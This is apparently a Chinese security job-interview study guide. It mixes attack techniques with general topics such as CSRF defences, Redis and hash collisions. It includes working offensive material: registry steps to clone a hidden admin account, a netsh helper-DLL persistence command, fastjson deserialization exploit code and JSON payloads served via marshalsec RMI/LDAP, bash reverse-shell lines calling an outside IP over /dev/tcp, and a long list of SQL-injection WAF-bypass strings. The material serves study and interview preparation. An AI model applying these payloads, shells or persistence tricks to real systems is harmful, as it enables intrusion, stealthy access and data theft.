

但是可以在计算机管理和登陆页面中看到

下面解决这个问题：

修改`HKEY_LOCAL_MACHINE\SAM\SAM` admin的权限为完全控制和读取，重新打开后导出3个内容：

test\$导出为1.reg
000003EC包含test$用户的F值，导出另存为2.reg
000003E9包含WIN10用户的F值，导出另存为3.reg



将2.reg中的F值替换为3.reg中的F值，即将test$用户的F值替换为WIN10用户的F值.

删除test\$用户，之后注册表就 无法打开了，导入1,2注册表：



这时登陆界面已经没有账户了，3389可以直接登陆，以test$用户登陆，登陆之后的身份是原来WIN10用户，桌面也是原用户的，达到克隆效果。这个时候再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。

### 0xC.Netsh

权限要求：未降权的管理员权限。
netsh也是Windows自带的命令，是用来配置网络的命令行工具。该工具可以通过导入helperdll的方式实现功能，且DLL导入后会写进注册表，永久有效.

关于`helper dll`的编写可以参考这个项目：[NetshHelperBeacon](https://github.com/outflanknl/NetshHelperBeacon)

注册表位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh`

netsh并不会开启自启动，因此还要再写一条自启动项：
`reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "cmd /c C:\Windows\System32\netsh"`


## Q：samesite防御CSRF的原理


## Q：fastjson相关漏洞

反序列化，远程代码执行

https://www.freebuf.com/articles/web/283585.html

探测：

post发json数据，去掉后面}，返回fastjson相关内容

### fastjson 1.2.24反序列化导致任意命令执行

exp:

```java
import java.lang.Process;
import java.lang.Runtime;
public class zcc {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = { "touch", "/tmp/zcctest" };
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

```


搭建RMI或者idap服务

```
git clone https://github.com/mbechler/marshalsec.git

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.111/#exp" 9999

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.111/#exp" 9999
```

exp为写好的恶意代码，`192.168.1.111`，

poc(content-type改为application/json，请求方式改为post)：

```json
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.1.111/#exp",
 "autoCommit":true
 }
}
```

弹shell的话：

```
"/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.65/8899;cat <&5 | while read line; do $line 2>&5 >&5; done"
或者
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/1234 0>&1"
```

### Fastjson 1.2.47远程命令执行漏洞

和上面一样，marshalsec项目启动RMI服务器

payload:

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.111/#exp",
        "autoCommit":true
    }
}
```


## Q：浏览器解析顺序和解码顺序

>   [浏览器解析与解码顺序](https://cloud.tencent.com/developer/article/1516371)
>
>   [编码与解码](http://xuelinf.github.io/2016/05/18/%E7%BC%96%E7%A0%81%E4%B8%8E%E8%A7%A3%E7%A0%81-%E6%B5%8F%E8%A7%88%E5%99%A8%E5%81%9A%E4%BA%86%E4%BB%80%E4%B9%88/)

编码：url，html，js（\uxxxx）

html编码类型，开头以`&`开始，结尾为分号，中间可能有：

-   英文

-   #后解十进制或者#x后接十六进制，

`&lt;、&#60;和&#x3c;`都为`<`

### 浏览器解析顺序

主要分为两个过程：

1.  浏览器收到响应后，先对html之类的文档进行解析，构成DOM树，css的文档被css解析器解析成样式表。
2.  解析html时，若遇到`<script>`标签，暂停html解析，控制权交给js引擎，处理完成后再移交给html解析，js可以对DOM树进行修改

js所处的位置会影响DOM的操作顺序，js若在header中会立即执行，若放在body的最尾部则可以在DOM生成后对DOM进行处理，若在DOM结构生成之前就调用DOM，JavaScript会报错。但使用defer属性也可以让浏览器在DOM加载完成后，再执行指定脚本。

### 浏览器解码顺序

浏览器的解码顺序和解析顺序是两码事。

**浏览器一般的解码顺序是先进行html解码，再进行javascript解码，最后再进行url解码**，需要注意的是这里的url解码和我们发送到服务器的url解码不同，那个过程是由服务器来完成的，而不是浏览器。


## Q：SQL注入绕过

### 1.大小写绕过

数据库使用不区分大小写的方式来处理SQL关键字，所以可以使用大小写变种来绕过。

### 2.过滤空格绕过

-   两个空格代替一个空格
-   tab
-   %a0
-   `%20 %09 %0a %0b %0c %0d %a0 %00 `
-   注释代替`/**/ /*!*/`
-   使用浮点数：`select * from users where id=8E0union select 1,2,3`
-   括号绕过

### 3.过滤逗号绕过

使用十六进制

example：

```sql
select column_name  from information_schema.tables where table_name="users"
select column_name  from information_schema.tables where table_name=0x7573657273
```

### 4.过滤逗号绕过

可以使用功能from或者offset或者join或者casewhen绕过。

**join**

```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

**盲注逗号绕过**

常用的盲注函数有mid，可以使用substring

```sql
mysql> select substring('hello' from 1);
+---------------------------+
| substring('hello' from 1) |
+---------------------------+
| hello                     |
+---------------------------+
1 row in set (0.04 sec)
 
mysql> select substring('hello' from 2);
+---------------------------+
| substring('hello' from 2) |
+---------------------------+
| ello                      |
+---------------------------+
```

**from...for...**

form for 关键字可在substr等函数中代替参数:

```mysql
substr(str From posi For length)
select substr('abcde' From 1 For 1)
输出: a
```

**offset**(过滤limit中的逗号)

```python
select * from users limit 1 offset 2;
# 此时 limit 1 offset 2 可以代替 limit 1,2
```


### 5.and or xor not被过滤

```
and=&&  or=||   xor=|   not=!
```

### 6.一些函数被过滤

#### 1.substr

使用left，right,lpad(左填充)，rlpad，mid

```sql
substr( str, startpos,lenth)
//注意sql语法中的起始位置是1
substr("abcde",1,1) //a

left(str,length)
left('abcde',1)//a
left('abcde',3)//abc

right(str,length)
right('abcde',1)//e
right('abcde',3)//cde

lpad('abcd',8,'x')//xxxxabcd

rpad(str, lenth,startpos)
rpad("abcde",2,1) //ab

mid("abcde",1,1) //a
```

#### 2.ascii

通过bin(hex())将字符转为二进制判断：

```sql
if((ascii(substr((select database()),1,1))>97),1,0)#

select 0 or if(bin(hex(substr((select database()),1,1)))>111101,1,0)#
#111101  => bin(hex(97)) ||bin(hex('a'))
```

#### 3.sleep

等价函数benchmark(第一个参数为执行的次数,第二个为执行的语句)：

```sql
SELECT BENCHMARK(20000000,md5(123));
```

#### 4.if被过滤

使用case when

```sql
if(condition,1,0) 
case when 写法: 
case when condition then 1 else 0 end

or if((ascii(substr((select database()),1,1))>97),1,0)#
or case when ascii(substr((select database()),1,1))>97 then 1 else 0 end#
```

### 7.=<>被过滤

使用in()绕过

```sql
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```

### 8.union select where等被过滤

1.  使用注释

    ```sql
    U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
    ```

2.  内敛注释

    ```
    id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM 	/*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
    ```

3.  大小写

    ```
    id=-1'UnIoN/**/SeLeCT
    ```

```sql
#WAF Bypassing Strings:
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 %55nion(%53elect 1,2,3)-- -
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 /**//*!12345UNION SELECT*//**/
 
 /**//*!50000UNION SELECT*//**/
 
 /**/UNION/**//*!50000SELECT*//**/
 
 /*!50000UniON SeLeCt*/
 
 union /*!50000%53elect*/
 
 +#uNiOn+#sEleCt
 
 +#1q%0AuNiOn all#qa%0A#%0AsEleCt
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 /*!u%6eion*/ /*!se%6cect*/
 
 +un/**/ion+se/**/lect
 
 uni%0bon+se%0blect
 
 %2f**%2funion%2f**%2fselect
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 REVERSE(noinu)+REVERSE(tceles)
 
 /*--*/union/*--*/select/*--*/
 
 union (/*!/**/ SeleCT */ 1,2,3)
 
 /*!union*/+/*!select*/
 
 union+/*!select*/
 
 /**/union/**/select/**/
 
 /**/uNIon/**/sEleCt/**/
 
 /**//*!union*//**//*!select*//**/
 
 /*!uNIOn*/ /*!SelECt*/
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 +UnIOn%0d%0aSeleCt%0d%0a
 
 UNION/*&test=1*/SELECT/*&pwn=2*/
 
 un?+un/**/ion+se/**/lect+
 
 +UNunionION+SEselectLECT+
 
 +uni%0bon+se%0blect+
 
 %252f%252a*/union%252f%252a /select%252f%252a*/
 
 /%2A%2A/union/%2A%2A/select/%2A%2A/
 
 %2f**%2funion%2f**%2fselect%2f**%2f
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 /*!UnIoN*/SeLecT+
 
##
#
#
#Union Select by PASS with Url Encoded Method:
 
%55nion(%53elect)
 
union%20distinct%20select
 
union%20%64istinctRO%57%20select
 
union%2053elect
 
%23?%0auion%20?%23?%0aselect
 
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
 
%55nion %53eLEct
 
u%6eion se%6cect
 
unio%6e %73elect
 
unio%6e%20%64istinc%74%20%73elect
 
uni%6fn distinct%52OW s%65lect
 
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
```

### 9.information被ban

Mysql 开发团队在 5.5.x 版本后将 innodb 作为数据库的默认引擎。 Mysql>5.6.x mysql 库里增添了两个新表，`innodb_index_stats `和 `innodb_table_stats` 这两个表是数据库自动设置的。存储数据库和对应的数据表。


```sql
查库名
select database_name from mysql.innodb_table_stats group by database_name;

查表名
select table_name from mysql.innodb_table_stats where database_name=database();
```


# 0x2 深信服-漏洞研究员实习

## Q：内存马有没有了解过（未完成）

>   [内存马](https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.Java%E5%AE%89%E5%85%A8/05.%E5%86%85%E5%AD%98%E9%A9%AC/01.Tomcat%E5%86%85%E5%AD%98%E9%A9%AC.html)
>
>   [内存马](https://mp.weixin.qq.com/s/IT8rftwtbNxJeVf04gr-pQ)
>
>   [基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)

webshell变迁：

web服务器管理页面=> 大马=>小马拉大马=>一句话木马=>加密一句话木马=>加密内存马

>   Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。

**内存马的原理就是在web组件或者应用程序中，注册一层访问路由，访问者通过这层路由，来执行我们控制器中的代码**

## Q：冰蝎、哥斯拉这些工具有没有了解过（待完成）

>   [哥斯拉使用](https://blog.csdn.net/qq_39997096/article/details/111168949)

冰蝎&特斯拉流量分析

## Q：说一下shiro反序列化的形成原因、利用链

> [shiro反序列化漏洞成因分析](http://wh1sper.com/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%88%90%E5%9B%A0%E5%88%86%E6%9E%90/)

目前有两个shiro反序列化的洞

- shiro-550(apache shiro<1.2.4)，
  - 使用已知秘钥撞
- shiro-721(apache shiro<1.4.2)
  - 使用登录后rememberMe={value}去爆破正确的key值进而反序列化


Apache Shiro < 1.4.2默认使用AES/CBC/PKCS5Padding模式
Apache Shiro >= 1.4.2默认使用AES/GCM/PKCS5Padding模式

### Shiro550

> 产生原因是因为shiro接受了Cookie里面rememberMe的值，然后去进行Base64解密后，再使用aes密钥解密后的数据，进行反序列化。
> 这个aes密钥是硬编码（简称写死），也就是他密钥是写死在jar包里面的，众所周知AES 是对称加密，即加密密钥也同样是解密密钥，那如果我们能知道了这个密钥就可以伪造恶意cookie


# 0x04 字节跳动-安全研究实习生

## Q：这两天log4j漏洞很火，有没有去了解一下

### log4j

比如登陆界面：

```java
public void login(string name){
  String name = "test";  //表单接收name字段
  logger.info("{},登录了", name); //logger为log4j
}
```

如果name为` {$java:os}`,那么logger会直接将系统信息带出来。

形成原因是log4j提供了一个lookup的功能。

还要说道jndi，`jndi:rmi:192.168.9.23:1099/remote`，如果被攻击的服务器，比如某台线上的服务器，访问了或者执行了，你自己的JNDI服务，**那么线上的服务器就会来执行JNDI服务中的remote方法的代码**


# 0x4 一面plus-安全研发实习生


## Q：redis的漏洞

利用方式

-   写ssh登陆服务器
-   计划任务反弹shell
-   redis直接写webshell
-   配合ssrf进行利用，（结合dict协议

## Q：csrf了解吗，怎么做一个修复

-   验证http referer字段
-   添加token并验证
-   自定义http头的属性并验证
-   尽量使用post，限制get传值使用

# 0x5 长亭科技-安全服务工程师


## Q：拿到一份php代码做审计，审计的流程大概是怎样的（待完成）

>   [新手审计php](https://blog.csdn.net/rpsate/article/details/122354690)

审计案例：[GitHub](https://github.com/Xyntax/1000php)


## Q：sql的二次注入了解吗，能介绍一下吗

二次注入是输入数据经处理后存储，取出后，再次进入到 SQL 查询。

二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

比如sqlilab中的24关：

usname和pwd都经过了`mysql_real_escape_string`转义，若注册一个账号：`test’#`，虽然转义了，但是放进去还是`test’#`，就相当于：`insert into xxx value(222,'test\'#)`，但是db中还是`test’#`.

这时使用test登陆，Username直接从数据库中取出，没有经过转义处理。在更新用户密码的时候其实执行了下面的命令：

`UPDATEusers SET PASSWORD='22' where username='test’#' and password='$curr_pass';`

因为我们将问题数据存储到了数据库，而程序再取数据库中的数据的时候没有进行二次判断便直接带入到代码中，从而造成了二次注入；


防御：

1 解决SQL注入最推荐的方法还是预处理+数据绑定。
2 另一个防御的点就是 对输入一视同仁，无论输入来自用户还是存储，在进入到 SQL 查询前都对其进行过滤、转义


# 0x6 天融信面试复盘

## Q：在linux下，现在有一个拥有大量ip地址的txt文本文档，但是里面有很多重复的，如何快速去重？

先sort，之后去掉相邻的重复行uniq

`sort test.txt | uniq`

```sh
uniq命令加-c选项可以实现对重复次数进行统计
sort test.txt | uniq -c
```


## Q：命令执行漏洞，http不出网有什么比较好的处理方法


## Q：内网渗透了解吗？聊一聊内网渗透的思路

信息收集，提权，代理搭建，域横向移动，哈希传递，票据制作，跨域攻击，上线方式


# 0x09 阿里巴巴-阿里云安全


## Q：WAF

WAF一句话描述，就是解析HTTP请求（协议解析模块），规则检测（规则模块），做不同的防御动作（动作模块），并将防御过程（日志模块）记录下来。不管硬件款，软件款，云款，核心都是这个，而接下来围绕这句话来YY WAF的实现。

## Q：redis解决了什么问题

Redis（Remote Dictionary Server )，即远程字典服务，，是一个高性能的key-value存储系统。它支持存储的value类型相对更多，包括string(字符串)、list(链表)、set(集合)、sorted set 和hash（哈希类型）。提供多种语言的API。





**redis+mysql结合导致的一致性问题**

两者结合最大的问题就是缓存和数据库双写一致性问题。


redis这么好，那么为什么不直接全部用redis存储呢？答案很简单，贵呀。

redis可以解决高并发的原因的是它可以直接访问内存


## Q：哈希冲突解决办法

解决哈希冲突的方法一般有：开放定址法、链地址法（拉链法）、再哈希法、建立公共溢出区等方法。

### 开放定址法

从发生冲突的那个单元起，按照一定的次序，从哈希表中找到一个空闲的单元。然后把发生冲突的元素存入到该单元的一种方法。开放定址法需要的表长度要大于等于所需要存放的元素。 在开放定址法中解决冲突的方法有：线行探查法、平方探查法、双散列函数探查法。


